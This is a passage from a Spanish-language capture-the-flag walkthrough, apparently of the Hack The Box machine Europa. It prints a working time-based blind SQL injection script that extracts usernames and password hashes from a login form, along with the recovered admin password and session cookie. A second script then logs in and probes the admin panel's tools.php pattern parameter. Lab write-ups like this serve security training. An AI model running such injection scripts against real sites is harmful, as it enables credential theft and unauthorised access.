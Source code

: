 ```python
caracteres = string.ascii_lowercase + "_" + string.digits + string.punctuation
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
print("Credenciales: ")
print("--------------------------------------")
resultado = ""
for pos in range(30):
	for letra in caracteres:
		sqli = "' and if(substr((select group_concat(username,0x3a,password) from users)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
		data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
		inicio = time.time()
		req = requests.post(login_url, data=data, headers = headers, verify=False)
		final = time.time()
		if final - inicio > 2:
			resultado += letra
			print(resultado)
			break
```
Obtenemos **administrator:2b6d315337f18617ba18922c0b9597ff** que se decodifica en **SuperSecretPassword!**  
Consigo la ```PHPSESSID:vfhb3ig3s0n01o9mp2arg735k0```  

----------------------------
# Part 4: Admin panel 
Estamos en el panel de adminsitración, hay dos partes "tools" y "admin". 

![europa2](https://user-images.githubusercontent.com/96772264/200188111-fa2360a2-771c-459e-868e-237945585e22.PNG)

En tools hay como un fichero de configuración de conexiones. Si interceptamos con buprsuite (y urldecodeamos) vemos que se envia POST a /tools.php  
![europa3](https://user-images.githubusercontent.com/96772264/200188120-c0be7d86-5702-4866-a084-cb622bf356a6.PNG)
```pattern=/ip_address/&ipaddress=test&text="openvpn": { #json largo }``` 
Si escripteamos la petición para experimentar:    
```python
#!/bin/python3
import requests
import urllib3; urllib3.disable_warnings()
sess = requests.session()

login_url = "https://admin-portal.europacorp.htb/login.php"
data = {"email":"admin@europacorp.htb","password":"SuperSecretPassword!"}
login = sess.post(login_url, data=data, verify=False)

tools = "https://admin-portal.europacorp.htb/tools.php"
data_2 = {
	"pattern":"/ip_address/",
	"ipaddress":"", 
	"text":"%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++..."}
tools = sess.post(tools, data=data_2, verify=False)
print(tools.text)
```
Nos devuelve una respuesta que almaceno en el archivo "resp1.txt"  
Luego lo vuelvo a correr pero en el campo "ipaddress" le pongo "test" y guardo la respuesta en resp2.txt  
Hago un **diff** de ambas cosas y tengo que en la segunda me pone "test" despues de adress.   
